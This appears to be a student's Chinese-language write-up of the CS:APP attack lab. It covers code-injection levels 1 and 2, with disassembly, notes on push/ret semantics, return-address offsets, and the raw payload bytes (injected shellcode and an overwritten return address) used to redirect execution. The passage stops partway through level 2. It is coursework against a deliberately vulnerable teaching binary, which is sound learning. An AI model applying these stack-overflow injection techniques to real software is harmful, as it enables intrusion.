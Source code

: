 # attack-lab
## Code-injection-Attacks
### Level-1
- `test`函数汇编代码如下:
```asm
   0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	call   0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	ret

```
- `get_buf`的汇编代码如下:
```asm
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
```
- `gdb`添加命令行参数: `set args 命令行参数`
- 只用找到`touch1`的指令地址即可,`touch1`函数的地址为`0x4017c0`
- 总结一下`ret`指令和`push`指令的行为:

|指令名称|取指|译码|执行|访存|写回|更新`PC`|
|---|---|---|---|---|---|---|  
`push`|取得`icode`,`ifun`和寄存器|取得`R[%rx] = valA`,`R[%rsp] = valB`|`valueE = valueB - 8`|`M[valueE] = valueA`(存储的就是旧的值)|`R[%rsp] = valueE`|更新`PC`|
`ret`|取得`icode`,`ifunc`|取得`valueA = valueB = R[%rsp]`|`valueE = valueB + 8`|`valeM = M[valueA]`|`R[%rsp] = valueB`|`PC = valueM`|

- 值得注意的就是入栈的时候相当于`push %rsp`,对于`ret`指令而言,指向`ret`之前一般都改变了`%rsp`的值,所以此时的跳转位置就是取出`rsp`的值,并且注意此时取出的值就是原来的`rsp`的值`valueM`而不是`valueE`
  
- 所以以这一个`level`为例: `test`函数首先把`rsp - 8`,并且在函数中调用`getbuf`函数,`getbuf`函数中把`rsp - 0x28`其实此时`rsp + 0x28`中存储的就是原来的下一条指令的地址(`0x401760`),所以需要注意需要改变的就是`rsp + 40`的位置(审题!!!)
- 另外由于获取数字的时候使用小端法的形式,所以前面的数字在低位,所以需要写成`c0 17 40 00 00 00 00 00 00 00`
- 最终答案为: [`level-1答案`](target1/level-1.txt)
### Level-2
- 需要的指令的字节级表示:
```asm
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```
- 这一个题目需要重点理解 `pushq` 和 `ret` 指令的作用,如果使用如下代码进行两次`ret`:
```text
48 c7 c7 fa 97 b9 59
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```